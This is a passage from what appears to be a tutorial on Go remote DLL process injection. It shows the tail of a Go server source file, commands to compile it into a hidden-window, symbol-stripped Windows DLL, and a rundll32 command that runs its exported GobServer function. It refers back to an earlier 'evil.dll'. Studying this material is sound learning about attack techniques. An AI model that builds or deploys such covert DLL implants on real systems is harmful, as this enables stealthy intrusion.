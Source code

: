 ```go  
		}

		// Handle the client connection concurrently in a separate goroutine
		go handleConnection(conn)
	}
}

func main() {

}
```  

**Compile on Windows...**  

```  
go build -buildmode=c-shared -ldflags="-w -s -H=windowsgui" -o gob-server.dll ./gob-server.go
```  

**Compile on Linux...**  

```  
GOOS=windows GOARCH=amd64 CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc go build -buildmode=c-shared -ldflags="-w -s -H=windowsgui" -o gob-server.dll ./gob-server.go
``` 

**Either way you compile, the file needs to be dropped in the root drive directory or change the dll path in the scr1pt.**  

## We now have a new Dll, but what is the difference between this one and the last one? 

**The main difference besides language (C++ vs Go) is that the previous example (evil.dll) has no export statements for functions. You may have noticed an error when you ran rundll32 against it.**  

## Let's try running rundll32 against our new dll. We have an exported function named GobServer.  

```  
rundll32 c:\\gob-server.dll,GobServer
```  

![](/assets/images/go-remote-dll-process-injection/example-4-gob-server.png)  
